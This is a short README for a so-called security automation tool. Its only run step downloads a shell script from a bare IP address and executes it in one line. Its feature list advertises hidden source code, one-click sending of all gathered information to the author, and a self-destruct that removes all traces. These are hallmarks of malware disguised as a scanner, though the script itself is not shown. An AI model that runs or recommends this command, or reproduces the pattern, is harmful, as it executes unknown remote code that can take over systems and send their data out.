 # Scar_Automation_tool
To run the Scar 
Use command: `wget http://161.117.85.147/tool/scar-installer.sh;chmod +x scar-installer.sh;bash scar-installer.sh`

#Faetures of Scan Automation
1. Ability to server hardening
2. Infra level VA scan and automation
3. Root Privilages escalation assessment automation
4. Windows Server related SMB Shares Scan automation inbuilt  
5. Load balancer with pipe ability to reduce the time to and CPU worker
6. Anonymously install flexibility that gives you full encapsulation to hide the source code
7. On fingertip installation with a single line of command
8. Require a password to run the tool
9. One-click feature to send all gathered information for the GAP Analysis 
10. One-Click self-destructive feature that removes all traces of the installed tool
11. One-time user password required to run all automation tasks
12. many other features are in the Queue..
